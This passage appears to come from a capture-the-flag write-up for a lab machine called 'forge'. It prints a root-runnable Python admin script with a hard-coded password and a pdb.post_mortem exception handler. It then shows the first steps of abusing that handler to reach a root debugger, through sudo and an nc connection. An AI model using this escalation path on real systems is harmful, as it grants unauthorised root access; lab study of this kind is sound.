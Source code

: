 Okay, /opt/remote-manage.py looks suspicious, lets check it out.

```
user@forge:/opt$ cat remote-manage.py
#!/usr/bin/env python3
import socket
import random
import subprocess
import pdb

port = random.randint(1025, 65535)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('127.0.0.1', port))
    sock.listen(1)
    print(f'Listening on localhost:{port}')
    (clientsock, addr) = sock.accept()
    clientsock.send(b'Enter the secret passsword: ')
    if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
        clientsock.send(b'Wrong password!\n')
    else:
        clientsock.send(b'Welcome admin!\n')
        while True:
            clientsock.send(b'\nWhat do you wanna do: \n')
            clientsock.send(b'[1] View processes\n')
            clientsock.send(b'[2] View free memory\n')
            clientsock.send(b'[3] View listening sockets\n')
            clientsock.send(b'[4] Quit\n')
            option = int(clientsock.recv(1024).strip())
            if option == 1:
                clientsock.send(subprocess.getoutput('ps aux').encode())
            elif option == 2:
                clientsock.send(subprocess.getoutput('df').encode())
            elif option == 3:
                clientsock.send(subprocess.getoutput('ss -lnt').encode())
            elif option == 4:
                clientsock.send(b'Bye\n')
                break
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)
finally:
    quit()
```
This looks like a script that lets the admin connect to the machine and check multiple things. The line ```pdb.post_mortem(e.__traceback__)```looks very interesting. It runs when we cause an exception and might let us run commands as root. So let's go ahead and open 2 ssh connections and type the following:

```
First ssh connection:
user@forge:/opt$ sudo -u root /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:47787

Second ssh connection:
user@forge:/opt$ nc 127.0.0.1 47787
Enter the secret passsword: secretadminpassword
Welcome admin!

What do you wanna do:
[1] View processes
[2] View free memory
[3] View listening sockets
```